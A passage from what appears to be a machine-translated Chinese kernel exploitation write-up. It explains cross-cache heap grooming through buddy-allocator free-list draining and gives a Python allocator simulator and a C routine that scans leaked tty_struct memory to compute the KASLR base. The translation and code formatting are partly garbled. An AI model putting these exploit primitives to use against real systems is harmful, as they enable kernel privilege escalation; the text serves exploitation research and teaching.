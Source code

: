   
这在空闲的 QEMU 系统上非常有效。它在生产中有效吗？这取决于内存分配噪音，但实际上它对于 OOB 读取非常有效。伙伴分配器空闲列表的状态实际上是通过 proc 为每个订单公开的：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacia2klwkMboUlFlGFIc4Bw8S7DKzZ8bNplKp4tvOQzr8ewkiabgIWZqOehx93sEoQvcEVfb60HpiaOA/640?wx_fmt=png&from=appmsg "")  
  
有一件事是肯定的，因为我们的目标是   
kmalloc-1k，它分配长度为 8k 字节的 slab，对应于顺序 1 页面分配，所以在第 2 页堆喷射上触发我们的 OOB 写入非常有意义。  
  
为什么？因为，感谢 Donald Knuth，有一件事是毫无疑问的：就在 2 阶分配刚刚在伙伴分配器中分成伙伴的时候，我们很有可能为支持我们的隔离  
kmem_cache板的内存区域获取两个连续的分配。  
  
回到我们的模拟器并实现排水，看起来像这样：  
  
```
defsimulate_time_evolution(self):        """Simulate kernel noise generation over a series of time steps."""        for time_step in range(TIME_STEPS):            self.generate_noise()        # Simulate freelist draining for cross-cache heap fengshui        if time_step == 80:            print("Draining freelists")            buddyinfo = self.buddy_allocator.get_free_list_state()            for_in range(buddyinfo[0]):                 self.buddy_allocator.allocate(0)            for_in range(buddyinfo[1]):                 self.buddy_allocator.allocate(1)            for_in range(1):                 self.buddy_allocator.allocate(2)        # Record the current state of the buddy allocator's free lists        self.free_list_history.append(self.buddy_allocator.get_free_list_state())        # Check for consecutive order-1 block allocations        self.check_consecutive_allocations(time_step)
```  
  
  
这确实会导致每次运行时出现几个跨缓存 OOB 的理想点，如下所示：  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacia2klwkMboUlFlGFIc4Bw8IibAZeCROeg0qLBiaEFwbTuMDsroANlBak28sK75EEbLQVsllZuTEtMw/640?wx_fmt=png&from=appmsg "")  
  
为了进一步测试这个概念，我们编写了一个小内核模块，将procfs节点公开为一种时间侧通道，并允许用户空间检查这两个连续的 slab 分配是否实际发生。结果如何？  
  
猜猜看，Etenal 说了什么：  
  
```
Once it borrows pages from a higher order, two consecutively allocations will split the higher-order pages, and most importantly, the higher-order pages are a chunk of contiguous memory.
```  
  
  
他没有错。事实证明，在拆分 order-2 页块后的 0.2 秒内，我们能够在真实内核上通过实验验证，这是进行跨缓存攻击的最佳时间窗口，该攻击尝试将两个单独的kmem_cacheslab 放置在内存中彼此靠近的位置（kmalloc-1k 和 kmalloc-cg-1k），以便我们的跨缓存 OOB 变得可行。  
  
好的部分是 Knuth 先生的算法针对性能进行了优化，这很有意义，但实际上这对系统是有害的，因为我们只需在我自己的构建上收集一些使用计时侧通道设施检测的统计数据，就可以在生产内核的预期时间窗口内保持在 0.1 秒内。  
  
Slabby内存取证  
  
尽管以下想法很简单，但我从未在漏洞利用或 CTF 解决方案中看到过它。由于我们仍然不能完全确定跨缓存时序，我们将依靠我们读取高达 65k 的能力。鉴于我们试图从 kmalloc-1k 到 kmalloc-cg-1k slab 进行跨缓存，这意味着我们有 8 个完整的 slab 可能会错过，但我们仍然能够读取tty_structs整个内核内存中的喷射数据。  
  
我们知道确切的偏移量吗？不，我们不知道，但实际上我们也不需要知道。  
  
```
/* Function to search for pointer triples and calculate KASLR base */voidfind_pointer_triples(uint8_t * buffer, int buffer_size, int * success, uint64_t * kaslr_base_out){for (int i = 0; i < buffer_size - 8; i++) {    /* Extract the first pointer */    uint64_t first_ptr = extract_pointer(buffer, i);    if (!is_valid_pointer(first_ptr))      /* Skip invalid pointers */      continue;    /* Extract the second pointer at the offset */    int second_ptr_pos = i + OFFSET_2ND_PTR;    if (second_ptr_pos + 8 > buffer_size)      continue;    uint64_t second_ptr = extract_pointer(buffer, second_ptr_pos);    if (!is_valid_pointer(second_ptr))      continue;    /* Extract the third pointer at the next offset */    int third_ptr_pos = second_ptr_pos + OFFSET_3RD_PTR - OFFSET_2ND_PTR;    if (third_ptr_pos + 8 > buffer_size)      continue;    uint64_t third_ptr = extract_pointer(buffer, third_ptr_pos);    if (!is_valid_pointer(third_ptr))      continue;    /* Calculate the differences */    int64_t diff_first = first_ptr - BASE_ADDR_FIRST;    int64_t diff_second = second_ptr - BASE_ADDR_SECOND;    int64_t diff_third = third_ptr - BASE_ADDR_THIRD;    printf("\n[+] Pointer triple found at byte offset %x:\n", i);    printf("\tFirst pointer: 0x%lx (Difference: 0x%lx)\n", first_ptr, diff_first);    printf("\tSecond pointer: 0x%lx (Difference: 0x%lx)\n", second_ptr, diff_second);    printf("\tThird pointer: 0x%lx (Difference: 0x%lx)\n", third_ptr, diff_third);    /* If all three differences match, calculate the KASLR base */    if (diff_first == diff_second && diff_first == diff_third) {      uint64_t kaslr_base = diff_first + KERNEL_BASE;      printf("\n[+] KASLR base: 0x%lx\n", kaslr_base);      * success = 1;      * kaslr_base_out = kaslr_base;      /* Stop once we find the KASLR base */      return;    }  }}
```